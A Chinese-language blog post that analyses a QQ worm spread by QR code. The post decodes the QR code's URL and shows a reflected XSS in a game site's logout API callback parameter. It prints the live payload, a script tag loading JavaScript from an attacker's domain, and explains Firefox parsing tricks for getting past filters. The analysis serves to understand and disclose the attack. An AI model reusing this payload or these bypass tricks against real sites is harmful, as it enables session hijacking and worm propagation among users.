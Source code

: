 ```yaml
---
layout: post
featured-img: worm
title: QQ蠕虫二维码分析
summary: <黄钻专属私密相册>蠕虫病毒二维码
---
```



**前言**

前几天看到了至少两位同学因为扫描这个二维码，而后即发送二维码给所有好友，以蠕虫形式传播



***

解析二维码，获得网址：

`http%3A%2f%2fi.ali213.net%2fapi.html%3Faction%3Dlogout%26callback%3D%00%00%00%00%00%00%00%3CscripT%2fsrc%3D%2f%2fccccccccccc.nekeda.cn%2ftemplate%2fapp.js%3E%3C%2fscripT%3E%3C%21--`

URL decode得到`http://i.ali213.net/api.html?action=logout&callback=%00%00%00%00%00%00<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

whois查询`ali213.net`域名，为游侠游戏网站，看来是调用了正经网站的API



***

访问API：`http://i.ali213.net/api.html?action=logout`

```html
{
	"status":1,
	"msg":"\u767b\u51fa\u6210\u529f",
	"data":{
		"script":"<script type=\"text\/javascript\"src=\"http:\/\/game.ali213.net\/api\/uc.php?time=1534038380&code=f755W9lt6o%2BqYgP7noRqshLJkkaC%2B5tatuf93A%2BStzaG4RDk%2Bc8tvBDMQl%2BFMy60io72HumXtCjNwgVsyA\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/shop.ali213.com\/api\/uc.php?time=1534038380&code=52dbb8X%2Fn%2B1bF%2BRO8srsZBgjLnUcoQ1ZmNOsXsfx3iQAYl3HWz14r0vKPQiWJoXAqqx5FT4BvlTR35Otug\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/passport.ali213.net\/api\/uc.php?time=1534038380&code=f003M1FK18joxKRVW8wD7q06z6PLqWLHnzOpVSNEXaAqZBZS%2B4i7oMEMi1zPmHbQqhmeqELwecnjeLAkOQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/plugin.ali213.net\/api\/uc.php?time=1534038380&code=3358a%2FEySHeMPKTgQfm0ikkqPMDIjun4EUoy0mtcUu0%2BZAuIxOSuQGVBvpoVTq1P1D6s2JGCRLTdXak4MQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/i.ali213.net\/api\/uc.html?time=1534038380&code=c0ecTf31BWZivvpSCfIz2Vy9pu7aEmIf1a6FGU16c%2BrNtkvNBBFs22E%2Fbvr6CCSyX2xb7vt2ZxazvzsCSQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/api.ali213.net\/api\/uc.php?time=1534038380&code=6b3cTo0z9viiFnow3HTKykapqEpk%2FejYeoC5BKYRNsYtK8wh%2FlO71%2BJk0NxrugQw5W%2F2kn4VjHQdVER0tQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/3g.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6095414c49fa4bad204bb189e405aebe\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/game.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6fc3efe1ae20847e0326173dc5b7ee7c\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/zhidao.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=3a12ba4fb7d01c0e1de8ec8510265356\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/pk.im.iyouxia.com\/aliSSO.php?action=logout&time=1534038381&signature=f283a40aef2e97d83719e57ed3293ed9\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/ol.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=54fd6efba68f7aa98248b4fec552b9a2\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/comment.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=424ad74c51c8582bdf9061b23f3c4215\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/wan.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=0bc3326cd131495296a095bac06dfc3a\" reload=\"1\"><\/script>"
	}
}
```

得到正常的log out json数据



***

接着添加`callback`参数：

`http://i.ali213.net/api.html?action=logout&callback=%3Cscript%3Ealert(0);%3C/script%3E`

![](https://upload-images.jianshu.io/upload_images/11356161-1bd0313bde07798d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

回调的参数改写页面代码格式为：

```html
callback([json]{
	"xxx":"xxx",
	"xxx":"xxx"
})
```

所以这样的接口就相当于是一个可由攻击者写入任意`js`代码的页面，从而发起`xss`



***

**XSS** `payload`：

`<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

执行后的页面代码为

```html
<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--({"status":1,"msg":"\u767b\u51fa\u6210\u529f","data":..........
.....
```

+ `<script/src`

  + FireFox的解析器会将标签后的非字母非数字字符认为是一个空白或无效字符
  + Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间 ，如`<body onload@#*!$=alert(0)>`
+ `src=//xxx.com`
  + 协议解析绕过。在FireFox下无效
+ `<!--`
  + 注释后面的json部分，有点多余，不注释也不会影响`payload`代码



***

whois查询域名`nekeda.cn`的注册人：魏xx，名下有4600+域名记录

一级域名未绑定IP，二级域名解析到一个`IIS 7`服务器，访问蠕虫`js`代码，来晚了已经404了。

猜想是利用`webQQ`协议的`CSRF`，获取所有好友名单并发送二维码
